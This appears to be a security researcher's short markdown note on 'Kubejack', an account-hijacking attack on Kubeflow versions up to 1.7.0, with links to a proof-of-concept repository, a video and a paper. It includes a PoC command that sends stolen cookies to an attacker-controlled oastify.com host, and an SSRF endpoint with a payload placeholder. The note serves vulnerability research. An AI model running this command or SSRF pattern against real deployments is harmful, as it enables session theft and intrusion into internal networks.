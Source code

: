 ```yaml
---
aliases:
  - kubejack
tags:
  - supply-chain-attack
  - MLops-attack
last_tested: 
transferable: N/A
---
```

 
## **PoC**
For Kubeflow versions <=1.7.0 

`python Kubejack.py --fetch-cookie --attacker-url 8v4lxpiftcnsgj3pchs8tk8mvd14pwtki.oastify.com --kubeflow-url http://kubeflow.company.com `

https://github.com/protectai/Snaike-Kubeflow/blob/cabc48cc7261c168b338ee7c7eae901c5ba99a2f/Kubejack.py#L4


## **Details**
A python lib with a UI, includes some java. Scales out resources for creating models

- Kubeflow dashboard is a RCE vector like Jupyter notebooks. 
- Lots of basic vulnerabilities present as of 10/2023
- basic SSRF's to be found, at endpoints like `pipeline/artifacts/get?source=minio&namespace=$payload&peek=256&bucket=mlpipeline`  
- Can be present inside or outside a k8s cluster, and can be used as a gateway to internal network.s

	
[Video](https://www.youtube.com/watch?v=_PC4PwSlPT4)
[Paper](https://mlsecops.com/resources/hacking-ai-account-hijacking-and-internal-network-attacks-in-kubeflow) 
Source: twitter.com/danhmcinerney  
### ATT&CK Matrix